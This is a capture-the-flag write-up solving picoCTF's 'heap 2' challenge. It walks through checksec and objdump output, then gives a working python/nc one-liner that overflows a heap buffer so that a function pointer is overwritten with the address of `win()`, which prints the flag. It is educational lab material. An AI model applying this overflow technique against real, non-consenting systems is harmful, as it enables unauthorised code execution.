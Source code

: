 # heap 2 #
 
## Overview ##

200 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #heap`

## Description ##

Can you handle function pointers?

## Approach ##

Binary and source are provided for this challenge.

Further modifications to the **[heap 0](../heap%200/heap%200.md)** and **[heap 1](../heap%201/heap%201.md)** challenge, this time replacing the `safe_var` global variable and associated buffer with a global variable named `x`, but still initialised with the string `"bico"` wihin `init()`.

`check_win()` that is invoked by menu item `4` when executing the program to print the flag now uses the value in `x` as a function pointer with signature `void x(void)`.

Given `x` is initialised with a value of `"bico"` attempting to execute the flag prior to any overflow attack results in a segmentation fault as the function pointer is obviously not valid.

Inspecting the provided source further we see a new `win()` function that reads and displays the contents of the `flag.txt` flag file. This function is not called from anywhere in the source.

So our aim is to make `x = &win()`, then use the print flag menu item.

Inspecting the provided binary architecture and security features enabled:

    $ checksec chall
    [*] 'picoCTF/heap-2/chall'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

Disassemble the biniary to obtain function addresses:

    $ objdump -M intel -d chall > chall.objdump.txt

Find the address of `win()` function :

    $ grep win chall.objdump.txt 
    00000000004011a0 <win>:
    00000000004011f0 <check_win>:

So we need to set the contents of `x` to `0x4011a0` to call our target `win()` functon.

Checking the offset of `x` from `input_data` using the provided `Print Heap` menu item to ensure our overflow attack payload hasn't changed from the previous challenges in the series.

    $ ./chall 

    I have a function, I sometimes like to call it, maybe you should change it

    1. Print Heap
    2. Write to buffer
    3. Print x
    4. Print Flag
    5. Exit

    Enter your choice: 1
    [*]   Address   ->   Value   
    +-------------+-----------+
    [*]   0xd606b0  ->   pico
    +-------------+-----------+
    [*]   0xd606d0  ->   bico

The offset remains 32 bytes, so no change to attack payload and we can just replace the `"pico"` of **[heap 1](../heap%201/heap%201.md)** with our target address.

## Solution ##

The final solution is to construct a payload that;
- Select menu item 2 "Write to Buffer" = `b'2\n'`
- Overflows the `input_data` buffer to reach the start of the `x` buffer by outputting 32 `A` characters = `b'A'*32`
- Continue the overflow to write the address of `win()` into `x` buffer, completing the input string to be written = `b'\xa0\x11\x40\x00\x00\x00\x00\x00\n`
- Select menu item 4 "Print Flag" to invoke `*x()` = `b'4\n'`

When constructing the overflow attack payload I ran into issues with python3 unicode strings when constructing the address, as the conversion to UTF-8 encoding was addition addition bytes in the output. So the command was modified to use the more direct `sys.stdout.buffer.write()` function.

I included the full little-endian address of `win()` however this command will not output the null bytes as indicatd by the warning, but given the added null termination of the `scanf()` to our input we have successfully overwritten the contents of `x` with the valid address (lowest three bytes being non-zero).

    $ echo -e $(python3 -c "import sys; sys.stdout.buffer.write(b'2\n' + b'A'*32 + b'\xa0\x11\x40\x00\x00\x00\x00\x00\n4\n')") | nc mimas.picoctf.net 55335
    bash: warning: command substitution: ignored null byte in input
    
    I have a function, I sometimes like to call it, maybe you should change it
    
    1. Print Heap
    2. Write to buffer
    3. Print x
    4. Print Flag
    5. Exit
    
    Enter your choice: Data for buffer: 
    1. Print Heap
    2. Write to buffer
    3. Print x
    4. Print Flag
    5. Exit
    
    Enter your choice: picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.
